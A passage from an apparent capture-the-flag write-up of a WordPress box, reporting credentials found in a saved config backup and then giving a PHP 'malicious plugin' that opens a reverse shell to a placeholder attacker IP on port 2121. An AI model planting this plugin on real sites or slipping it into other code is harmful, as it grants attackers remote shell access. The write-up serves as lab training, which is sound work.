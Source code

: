 __Remember:__ The `wp-config.php` file in the wordpress directories usually has the required credentials for login.<br>
But in this case, we find the credentials in the `.save` file of the config file.

![](src/wpcreds.png)

- `devtest`:`devteam01`

I think we got what we expected to from this directory, moving to `/main` gives us the wordpress site. We also got a username from the first post of wordpress: `administrator`

Apart from that, I found an `XSS` in the comments of the first post. But we're going to exploit this box using wordpress reverse shell techniques, that's why there's no need to use `XSS`.

So we got the wordpress username, a couple of credentials. Now the scenerio is simple, which is getting a reverse shell through an authenticated wordpress cms.

At this point we don't need further enumeration, so I stopped searching for any other interesting things and focused on getting a reverse shell.

# Foothold: Wordpress Reverse Shell
There are many different ways to get a reverse shell from an authenticated wordpress panel. One of them is to change the content of theme files using the embedded `Theme editor`. But in this writeup, we're going to go with another one, which is uploading a malicious plugin.

- Check out [this](https://www.hackingarticles.in/wordpress-reverse-shell/) article for more information and explanation about the topic.

First we need to create a file with a reverse shell in it. Don't worry, I'm about to give the file to you : )

__f4T1H.php__
```php
<?php
/**
* Plugin Name: WordPress Reverse Shell Plugin
* Author: f4T1H
*/

$sock=fsockopen("YOUR_IP_HERE",2121);
$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```
